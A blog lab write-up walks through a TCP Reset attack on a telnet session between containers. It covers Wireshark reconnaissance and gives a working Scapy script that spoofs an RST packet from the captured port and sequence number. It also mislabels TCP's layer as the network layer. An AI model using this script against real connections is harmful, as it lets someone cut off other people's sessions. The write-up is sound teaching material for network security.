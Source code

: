 +++
title = "TCP Attack Lab 1 - TCP Reset"
date = "2023-04-26"
description = "Resetting a TCP connection."

tags = ["network","security","writeups",]
+++


We reset a TCP connection between two hosts on our network.

TCP is a critical protocol at the fourth layer of the OSI model of the network stack, the network layer, yet it has some vulnerabilities. We will reset, hijack, and obtain a reverse shell from a `telnet` connection between two unsuspecting users to demonstrate the vulnerabilities.

In the first part of this series, we will conduct a TCP Reset attack on the `telnet` connection.


# Setup

Please see the series [overview post](/blog/posts/tcp-attack-lab) for setup instructions.

 
# Resetting a `telnet` Connection

In this demonstration, I will show how an attacker on the same LAN as two machines that have an existing telnet connection can reset the connection.

First, we need to simulate the `telnet` connection between User 1 and User 2. In one terminal window, establish the connection from user 1 to User 2.


# Reconnaissance 

Then, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

!["wireshark init page"](/blog/images/tcp-reset/wireshark-init.png)

Select the bridge interface.

---

In the `telnet` connection, I run a command like `echo hello` to generate some traffic over the `telnet` connection. 

!["victim telnet connection"](/blog/images/tcp-reset/telnet-init.png)

The existing telnet connection with a command executed. This image also shows the initial command used to establish the connection.

---

The last TCP packet sent from User 1 to User 2 will inform the source port number and sequence number used in the RST packet we will spoof from the attacker.

!["wireshark screen capture"](/blog/images/tcp-reset/wireshark.png)

Using Wireshark to construct our RST packet.

---


# Running the exploit

The following code will send our RST packet:

```python
from scapy.all import * 
import argparse
 
def spoof_reset_packet(src_port, seq_num):
  user1_ip = "10.9.0.6"
  user2_ip = "10.9.0.7"
  
  user1_port = src_port
  user2_port = 23
  
  ip = IP(src=user1_ip, dst=user2_ip)
  tcp = TCP(sport=user1_port, dport=user2_port, flags="R", seq=seq_num)
  pkt = ip/tcp
  
  print("SENDING RESET PACKET........")
  send(pkt, verbose=0)
   
if __name__ == "__main__":
  parser = argparse.ArgumentParser()
  parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
  parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)

  args = parser.parse_args()
  spoof_reset_packet(args.src_port, args.seq)
```

For convenience, I designed the program to take in arguments for the source port number and the sequence number. I invoke it as follows with the source port and sequence numbers taken from Wireshark.

!["attack"](/blog/images/tcp-reset/reset-attack.png)

Running the attack program with arguments for source port and sequence number.

---

When we go back to the `telnet` connection, we see that the connection was disconnected.

!["reset connection"](/blog/images/tcp-reset/reset-connection.png)

The telnet connection is reset.

---


# That's it!

In this post we learned about one exploit on TCP connections, namely the TCP Reset attack.

In the next part, we will expand on the knowledge gained from conducting the RST attack to hijack the `telnet` connection to run an arbitrary command.


### _Updated: April 26, 2023_